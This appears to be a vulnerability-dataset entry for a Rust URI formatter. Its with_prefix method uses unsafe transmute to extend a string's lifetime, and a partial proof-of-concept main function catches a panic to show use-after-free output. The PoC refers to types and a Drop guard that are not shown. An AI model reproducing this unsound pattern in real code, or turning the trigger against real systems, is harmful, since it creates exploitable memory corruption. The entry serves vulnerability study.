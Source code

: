 ## Dependencies:
- Crates:
  - `std`
  - `smallvec = "1.0"`
- Types:
  - Structs: `Formatter<'i, P>`, `Wrapper<'a, 'b>`, `MyDisplay`, `MyValue`
  - Enums: `Query`
  - Primitive Types: `&str`, `char`, `bool`
- Traits:
  - `UriPart`
  - `UriDisplay<P>`
  - `std::fmt::Write`
  - `Drop`
- Functions and Methods:
  - Associated Functions: `Formatter::new`
  - Methods: `Formatter::with_prefix`, `Formatter::write_named_value`, `Formatter::write_raw`, `std::panic::catch_unwind`

## Vulnerable Code:
```rust
impl<'i> Formatter<'i, Query> {
    fn with_prefix<F>(&mut self, prefix: &str, f: F) -> fmt::Result
        where F: FnOnce(&mut Self) -> fmt::Result
    {
        let prefix: &'static str = unsafe { std::mem::transmute(prefix) };

        self.prefixes.push(prefix);
        let result = f(self);
        self.prefixes.pop();

        result
    }
}
```

## Trigger Method:(based)
```rust
fn main() {
    let mut buffer = String::new();
    let mut formatter = Formatter::<Query>::new(&mut buffer);

    let poc_trigger = MyDisplay;

    // Trigger the panic within a controlled environment to catch it.
    let result = std::panic::catch_unwind(std::panic::AssertUnwindSafe(|| {
        UriDisplay::fmt(&poc_trigger, &mut formatter)
    }));

    // Assert that a panic occurred as expected.
    assert!(result.is_err());

    // After the panic, the Drop guard in the PoC has executed,
    // which re-used the dangling pointer's memory location.
    // The call to `write_raw("world")` inside the Drop guard
    // uses the dangling pointer, which now points to "12345".
    // This results in the UAF output.
    assert_eq!(buffer, "12345=world");
    
    println!("Successfully triggered and verified Use-After-Free.");
    println!("Buffer content: {}", buffer);
}
```